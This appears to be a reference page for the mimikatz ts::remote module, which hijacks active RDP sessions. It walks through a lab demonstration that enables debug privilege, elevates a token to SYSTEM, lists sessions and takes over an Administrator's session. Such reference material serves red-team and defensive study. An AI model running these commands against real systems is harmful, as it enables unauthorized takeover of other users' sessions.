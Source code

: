 # remote

This module can be used to perform RDP takeover/hijacking of active sessions. It has the following arguments:

* `/id`: The active RDP session id to hijack. It can be found with [`ts::sessions`](sessions.md).
* `/target`: It connects another session to the target ID, not your own/current session.
* `/password`: The password of the target RDP user. It is not required when running as `NT AUTHORITY\SYSTEM`.

```text
mimikatz # privilege::debug
Privilege '20' OK
```

```text
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

640     {0;000003e7} 0 D 35719          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;01b55626} 2 F 30415201    hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730
(15g,26p)       Primary
 * Thread Token  : {0;000003e7} 0 D 30503948    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

```text
mimikatz # ts::sessions

Session: 1 - RDP-Tcp#0
  state: Active (0)
  user : Administrator @ hacklab
  Conn : 9/25/2021 2:09:14 AM
  disc : 9/25/2021 2:09:13 AM
  logon: 9/25/2021 12:35:03 AM
  last : 9/25/2021 6:45:06 AM
  curr : 9/25/2021 6:48:11 AM
  lock : no
  addr4: 192.168.0.92

Session: *2 - RDP-Tcp#2
  state: Active (0)
  user : m3g9tr0n @ hacklab
  Conn : 9/25/2021 6:42:13 AM
  logon: 9/25/2021 6:42:15 AM
  last : 9/25/2021 6:48:11 AM
  curr : 9/25/2021 6:48:11 AM
  lock : no
  addr4: 192.168.0.92
```

```text
mimikatz # ts::remote /id:1
Asking to connect from 3 to current session

> Connected to 1
```

{% hint style="warning" %}
Experiments showed the `ts::remote`, even running as `SYSTEM`, was not working against _Windows Server 2019 Standard 1809, OS Build 17763.737_. The password of the user to takeover was requested.
{% endhint %}

_\(Demonstration target is a Windows Server 2016 Essentials\)_

